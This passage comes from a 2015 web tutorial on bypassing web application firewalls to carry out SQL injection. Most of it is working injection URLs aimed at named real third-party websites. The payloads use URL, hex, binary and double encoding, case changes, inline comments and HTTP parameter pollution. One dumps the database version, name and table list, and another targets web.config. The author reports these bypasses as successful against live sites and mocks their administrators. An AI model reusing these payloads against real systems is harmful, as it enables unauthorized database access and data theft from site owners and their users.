URL Encoded Bypass<pre><a href="http://www.arconassoc.com/pages.php?page_id=%2e%30%75%4e%49%4f%6e%28%73%65%6c%65%63%74%20%31%2c%32%2c%33%2c%34%2c%35%2c%36%2c%37%2c%38%2c%39%2c%31%30%2c%31%31%2c%31%32%29" target="_blank">http://www.arconassoc.com/pages.php?page_id=%2e%30%75%4e%49%4f%6e%28%73%65%6c%65%63%74%20%31%2c%32%2c%33%2c%34%2c%35%2c%36%2c%37%2c%38%2c%39%2c%31%30%2c%31%31%2c%31%32%29</a></pre>
Now you know the concept and the example already, so i guess it wont be a problem for you to make some more payloads for you and not only that but using URL encoding in the right way when required. You are not bound to use URL encoding only with union select but you can also encode other keywords and operators.<br>
<br>
Lets see some other uses of encodings, here we assume a WAF have blocked/filtered use of '0x' to filter use of hex in your Injection and single or double quotes are not allowed. Even sometimes WAFs use to decode Hexed Input and check for malicious content. We can try the following ways to overcome the situation.
<pre>Normal Hex (Blocked)
select 0x313131
Hexed Bypass Version
select x'313131';
Binary Bypass
select 0b011110100110010101101110;
Bypass using functions
select unhex(x'333133313331');
</pre>
For example here is an application having WAF + Routed Query Injection. The problem is that when we route the injection to another query our Hexed Input is getting detected by WAF. As you can see here.<br>
<br>
Bypassed Link<pre><a href="http://www.nat-net.com/forms/products/viewAllProducts.php?sc=1'UnION distinctrow Select 11-- -" target="_blank">http://www.nat-net.com/forms/products/viewAllProducts.php?sc=1'UnION distinctrow Select 11-- -</a></pre>
Routed Query under Hexed Payload Blocked<pre><a href="http://www.nat-net.com/forms/products/viewAllProducts.php?sc=1'UnION distinctrow Select 0x2e312929556e494f6e2053656c65637420312c322c332c342c352c362c372c382c392c31302c31312c31322c31332c31342c31352c31362c313723-- --" target="_blank">http://www.nat-net.com/forms/products/viewAllProducts.php?sc=1'UnION distinctrow Select 0x2e312929556e494f6e2053656c65637420312c322c332c342c352c362c372c382c392c31302c31312c31322c31332c31342c31352c31362c313723-- --</a></pre>
Now lets try the above bypasses we discussed, on this one.<br>
<br>
First we can rebypass it under Hex payload.<pre><a href="http://www.nat-net.com/forms/products/viewAllProducts.php?sc=1'UnION distinctrow Select 0x2e312929556e494f6e2064697374696e63742053656c65637420312c322c332c342c352c362c372c382c392c31302c31312c31322c31332c31342c31352c31362c313723-- -" target="_blank">http://www.nat-net.com/forms/products/viewAllProducts.php?sc=1'UnION distinctrow Select 0x2e312929556e494f6e2064697374696e63742053656c65637420312c322c332c342c352c362c372c382c392c31302c31312c31322c31332c31342c31352c31362c313723-- -</a></pre>
Second we can use Hex in such a way firewall never expected<pre><a href="http://www.nat-net.com/forms/products/viewAllProducts.php?sc=1'UnION distinctrow Select x'2e312929556e494f6e2053656c65637420312c322c332c342c352c362c372c382c392c31302c31312c31322c31332c31342c31352c31362c313723'-- -" target="_blank">http://www.nat-net.com/forms/products/viewAllProducts.php?sc=1'UnION distinctrow Select x'2e312929556e494f6e2053656c65637420312c322c332c342c352c362c372c382c392c31302c31312c31322c31332c31342c31352c31362c313723'-- -</a></pre>
In a condition single Quotes are blocked we can use this bypass<pre><a href="http://www.nat-net.com/forms/products/viewAllProducts.php?sc=1'UnION distinctrow Select 0b0010111000110001001010010010100101010101011011100100100101001111011011100010000001010011011001010110110001100101011000110111010000100000001100010010110000110010001011000011001100101100001101000010110000110101001011000011011000101100001101110010110000111000001011000011100100101100001100010011000000101100001100010011000100101100001100010011001000101100001100010011001100101100001100010011010000101100001100010011010100101100001100010011011000101100001100010011011100100011-- -" target="_blank">http://www.nat-net.com/forms/products/viewAllProducts.php?sc=1'UnION distinctrow Select 0b0010111000110001001010010010100101010101011011100100100101001111011011100010000001010011011001010110110001100101011000110111010000100000001100010010110000110010001011000011001100101100001101000010110000110101001011000011011000101100001101110010110000111000001011000011100100101100001100010011000000101100001100010011000100101100001100010011001000101100001100010011001100101100001100010011010000101100001100010011010100101100001100010011011000101100001100010011011100100011-- -</a></pre>
One more way to bypass it<pre><a href="http://www.nat-net.com/forms/products/viewAllProducts.php?sc=1'UnION distinctrow Select unhex('2e312929556e494f6e2053656c65637420312c322c332c342c352c362c372c382c392c31302c31312c31322c31332c31342c31352c31362c313723')-- -" target="_blank">http://www.nat-net.com/forms/products/viewAllProducts.php?sc=1'UnION distinctrow Select unhex('2e312929556e494f6e2053656c65637420312c322c332c342c352c362c372c382c392c31302c31312c31322c31332c31342c31352c31362c313723')-- -</a></pre>
Lets say we have decided to use Hex anyway..so here is another bypass<pre><a href="http://www.nat-net.com/forms/products/viewAllProducts.php?sc=1'UnION distinctrow Select replace(0x2e312929556e495f7a656e4f6e2053656c5f7a656e65637420312c322c332c342c352c362c372c382c392c31302c31312c31322c31332c31342c31352c31362c313723,(0x5f7a656e),'')-- -" target="_blank">http://www.nat-net.com/forms/products/viewAllProducts.php?sc=1'UnION distinctrow Select replace(0x2e312929556e495f7a656e4f6e2053656c5f7a656e65637420312c322c332c342c352c362c372c382c392c31302c31312c31322c31332c31342c31352c31362c313723,(0x5f7a656e),'')-- -</a></pre>
One more way to bypass even if Quotes are not available<pre><a href="http://www.nat-net.com/forms/products/viewAllProducts.php?sc=1'UnION distinctrow Select unhex(0x32653331323932393535366534393466366532303533363536633635363337343230333132633332326333333263333432633335326333363263333732633338326333393263333133303263333133313263333133323263333133333263333133343263333133353263333133363263333133373233)-- -" target="_blank">http://www.nat-net.com/forms/products/viewAllProducts.php?sc=1'UnION distinctrow Select unhex(0x32653331323932393535366534393466366532303533363536633635363337343230333132633332326333333263333432633335326333363263333732633338326333393263333133303263333133313263333133323263333133333263333133343263333133353263333133363263333133373233)-- -</a></pre>
And so we can keep going to bypass the above WAF in many other ways. Now thats all on the basic encoding and thier role while bypassing WAF, here is an application you can use to encode/decode your payload <a href="http://leettime.net/idiots_test_lab/hash_analyze_workstation/">Hash Analyzing Workstation</a>. There are few times you can also use UTF-8 URL encoding to bypass WAF so that too i have included in the Workstation.<br>
<br>
NOTE : This LAB is not developed by me from scratch, i got its code from a friend. What i did is adjusted some code, added some encodings and made it a little better to work with.<br><br>
<h4><a name="doubleencoding">Double Encoding to bypass WAF</a></h4>
As we discussed before there are many applications playing role to pass your input from your browser to the database. This trick is based on exploiting this behaviour when our input gets decoded two times before it reach the database. As we know that web server do the basic URL decoding as it pass the Input parameters to the Web Application. But what if the developer again did the decoding? well yeah there are many times developer URL decode the input before using. Here arises one Loophole :D. We can sometimes use this behaviour to Bypass Firewall.<br>
<br>
Example WAF (Blocked)<pre><a href="http://www.premises.com.au/residetails.php?id=6145081 union select 1111,1222,1333&premflag=&searchcat=buy" target="_blank">http://www.premises.com.au/residetails.php?id=6145081 union select 1111,1222,1333&premflag=&searchcat=buy</a></pre>
Bypassed With Double URL Encoding<pre><a href="http://www.premises.com.au/residetails.php?id=6145081%2b%2575%256e%2569%256f%256e%2b%2573%2545%256c%2545%2563%2574%2b0x3133333731,1222,1333&premflag=&searchcat=buy" target="_blank">http://www.premises.com.au/residetails.php?id=6145081%2b%2575%256e%2569%256f%256e%2b%2573%2545%256c%2545%2563%2574%2b0x3133333731,1222,1333&premflag=&searchcat=buy</a></pre>
<h4><a name="casesensitvebypass">Bypassing Case sensitive Filters</a></h4>
As we discussed earlier about the ruleset defined by WAF, if you know some basics of REGEX then there is no need to tell you the different between:
<pre>/union.*select/
and
/union.*select/i
</pre>
A Grand salute to all those admins who really take too much care of hackers by leaving such bypasses.<br>
<br><br>
Well if you dont know, then let me tell you. The first one is case sensitve and the second one is case insensitive, while making regex rules this mistake could happen sometimes. Which gives birth to such sites.<br>
<br>
Group_concat Blocked<pre><a href="http://www.groffr.com/compare_projects.php?q=1495' and false /*!50000UNION*/ALL+SELECT*from(select /*!50000group_concat(shit SEPARATOR '')*/from(select 0x223e3c2f613e3c2f6469763e3c2f6469763e3c2f74683e3c2f74723e3c2f7461626c653e3c666f6e7420636f6c6f723d22726564223e3c62723e3c623e496e6a6563746564206279205a454e3c2f623e3c62723e56657273696f6e203a3a20 as shit /*!50000union*/select version()/*!50000union*/select 0x3c62723e4461746162617365203a3a20/*!50000union*/select database()/*!50000union*/select 0x3c2f666f6e743e3c62723e3c62723e3c666f6e7420636f6c6f723d22677265656e223e3c753e3a3a205461626c657320466f756e64203a3a203c2f753e3c6c693e/*!50000union*/select/*!50000group_concat(table_name SEPARATOR 0x3c6c693e)*/from/*!50000InFormation_schema.tables*//*!50000where+*/table_schema=/*!50000database()*/)lol)a1 join(select(0x3133333732))a2 join(select(0x3133333733))a3 join(select(0x3133333734))a4 join(select(0x3133333735))a5 join(select(0x3133333736))a6--+" target="_blank">http://www.groffr.com/compare_projects.php?q=1495' and false /*!50000UNION*/ALL+SELECT*from(select /*!50000group_concat(shit SEPARATOR '')*/from(select 0x223e3c2f613e3c2f6469763e3c2f6469763e3c2f74683e3c2f74723e3c2f7461626c653e3c666f6e7420636f6c6f723d22726564223e3c62723e3c623e496e6a6563746564206279205a454e3c2f623e3c62723e56657273696f6e203a3a20 as shit /*!50000union*/select version()/*!50000union*/select 0x3c62723e4461746162617365203a3a20/*!50000union*/select database()/*!50000union*/select 0x3c2f666f6e743e3c62723e3c62723e3c666f6e7420636f6c6f723d22677265656e223e3c753e3a3a205461626c657320466f756e64203a3a203c2f753e3c6c693e/*!50000union*/select/*!50000group_concat(table_name SEPARATOR 0x3c6c693e)*/from/*!50000InFormation_schema.tables*//*!50000where+*/table_schema=/*!50000database()*/)lol)a1 join(select(0x3133333732))a2 join(select(0x3133333733))a3 join(select(0x3133333734))a4 join(select(0x3133333735))a5 join(select(0x3133333736))a6--+</a></pre>
Changing Case of Group_Concat to bypass<pre><a href="http://www.groffr.com/compare_projects.php?q=1495' and false /*!50000UNION*/ALL+SELECT*from(select /*!50000GrOup_CoNcat(shit SEPARATOR '')*/from(select 0x223e3c2f613e3c2f6469763e3c2f6469763e3c2f74683e3c2f74723e3c2f7461626c653e3c666f6e7420636f6c6f723d22726564223e3c62723e3c623e496e6a6563746564206279205a454e3c2f623e3c62723e56657273696f6e203a3a20 as shit /*!50000union*/select version()/*!50000union*/select 0x3c62723e4461746162617365203a3a20/*!50000union*/select database()/*!50000union*/select 0x3c2f666f6e743e3c62723e3c62723e3c666f6e7420636f6c6f723d22677265656e223e3c753e3a3a205461626c657320466f756e64203a3a203c2f753e3c6c693e/*!50000union*/select/*!50000group_coNcAt(table_name SEPARATOR 0x3c6c693e)*/from/*!50000InFormation_schema.tables*//*!50000where+*/table_schema=/*!50000database()*/)lol)a1 join(select(0x3133333732))a2 join(select(0x3133333733))a3 join(select(0x3133333734))a4 join(select(0x3133333735))a5 join(select(0x3133333736))a6--+" target="_blank">http://www.groffr.com/compare_projects.php?q=1495' and false /*!50000UNION*/ALL+SELECT*from(select /*!50000GrOup_CoNcat(shit SEPARATOR '')*/from(select 0x223e3c2f613e3c2f6469763e3c2f6469763e3c2f74683e3c2f74723e3c2f7461626c653e3c666f6e7420636f6c6f723d22726564223e3c62723e3c623e496e6a6563746564206279205a454e3c2f623e3c62723e56657273696f6e203a3a20 as shit /*!50000union*/select version()/*!50000union*/select 0x3c62723e4461746162617365203a3a20/*!50000union*/select database()/*!50000union*/select 0x3c2f666f6e743e3c62723e3c62723e3c666f6e7420636f6c6f723d22677265656e223e3c753e3a3a205461626c657320466f756e64203a3a203c2f753e3c6c693e/*!50000union*/select/*!50000group_coNcAt(table_name SEPARATOR 0x3c6c693e)*/from/*!50000InFormation_schema.tables*//*!50000where+*/table_schema=/*!50000database()*/)lol)a1 join(select(0x3133333732))a2 join(select(0x3133333733))a3 join(select(0x3133333734))a4 join(select(0x3133333735))a5 join(select(0x3133333736))a6--+</a></pre>
If you see in the above URL there are two firewalls, one is "406 Not Acceptable", second is "403 Forbidden" one. The first one i bypassed using Inline commenting which we will discuss later, second one which was blocking concat bypassed by changing the case.<br><br>
<h4><a name="hpp">HTTP Parameter Pollution</a></h4>
May be many of you have heard of it but am sure few would have ever used it. First of all what is HPP, Definition at OWASP - Supplying multiple HTTP parameters with the same name may cause an application to interpret values in unanticipated ways. By exploiting these effects, an attacker may be able to bypass input validation, trigger application errors or modify internal variables values. As HTTP Parameter Pollution (in short HPP) affects a building block of all web technologies, server and client side attacks exist.<br>
<br>
Here is a table which shows the default behavior of these application with HPP.<br>
<br>
Now as you have seen in the above image that ASP.NET add all the instances of the variables passed in the URL to comma separated values. We ll use it now for some basic bypass methods.<br>
Example WAF (Blocked)<pre><a href="http://www.punjabkesari.com/frmNewsDetails.aspx?uid='union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,'web.config',20,21--" target="_blank">http://www.punjabkesari.com/frmNewsDetails.aspx?uid='union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,'web.config',20,21--</a></pre>
There are loads of ways to bypass the above WAF but we are gonna use tricks using HPP<pre><a href="http://www.punjabkesari.com/frmNewsDetails.aspx?uid='union--+&uid=*/%0aselect 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,'web.config',20,21--" target="_blank">http://www.punjabkesari.com/frmNewsDetails.aspx?uid='union--+&uid=*/%0aselect 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,'web.config',20,21--</a></pre>
Lets try some other ways we can use HPP for Comma Filtered WAF<pre><a href="http://www.punjabkesari.com/frmNewsDetails.aspx?uid='union--+&uid=*/%0aselect 1&uid=2&uid=3&uid=4&uid=5&uid=6&uid=7&uid=8&uid=9&uid=10&uid=11&uid=12&uid=13&uid=14&uid=15&uid=16&uid=17&uid=18&uid='web.config'&uid=20&uid=21--" target="_blank">http://www.punjabkesari.com/frmNewsDetails.aspx?uid='union--+&uid=*/%0aselect 1&uid=2&uid=3&uid=4&uid=5&uid=6&uid=7&uid=8&uid=9&uid=10&uid=11&uid=12&uid=13&uid=14&uid=15&uid=16&uid=17&uid=18&uid='web.config'&uid=20&uid=21--</a></pre>
As HPP will implode all the values to CSV format, that will help our query to work just fine. In such manner there is alot you can do with HPP.<br><br>
As i cant discuss all the topics in one tutorial so we will stop here for this part. Will start with the other topics on WAF in the next part, till then have fun...keep learning :)<br>
<br>Author : Zen Javanicus<br>Date : 2015-03-28</span><br><br></div><div id="disqus_thread"></div>
<script>
var disqus_config = function () {
this.page.url = "http://securityidiots.com/Web-Pentest/WAF-Bypass/waf-bypass-guide-part-1.html";  
this.page.identifier = "53";
};

(function() {
var d = document, s = d.createElement('script');
s.src = 'https://securityidiots-com.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript> </div>
</header>
</section>
</div>
</div>
</div>
</div>

<div id="footer">
<div class="container">

<div class="row">
<div class="8u">
<section>
<header class="major">
<h2>Connect with Security Idiots</h2>
<span class="byline">Learn & share more on Hacking and Security</span>
</header>
<div class="row">
<section class="6u">
<ul class="default">
<li><a href="https://www.facebook.com/pages/securityidiotscom/879838302049912" target="_BLANK">&nbsp;&nbsp;<font size=5><b>FACEBOOK</b></font></a></li>
<li><a href="https://www.youtube.com/channel/UCPPAYs04kwfXcHnerm_ueFw" target="_BLANK">&nbsp;&nbsp;<font size=5><b>Youtube Channel</b></font></a></li>
</ul>
</section>
</div>
</section>
</div>
<div class="4u">
<section>
<header class="major">
<h2>Contact Security Idiots</h2>
</header>
<ul class="contact">
<li>
<span class="address">Email</span>
<span><a href="../../cdn-cgi/l/email-protection.html" class="__cf_email__" data-cfemail="1d7c797074735d6e787e686f74696474797472696e337e7270">[email&#160;protected]</a></span>
</li>
</ul>
</section>
</div>
</div>

<div class="copyright">
Designed by k-hz webdevelopers
</div>
</div>
</div>
<script data-cfasync="false" src="../../cdn-cgi/scripts/5c5dd728/cloudflare-static/email-decode.min.js"></script></body>
</html>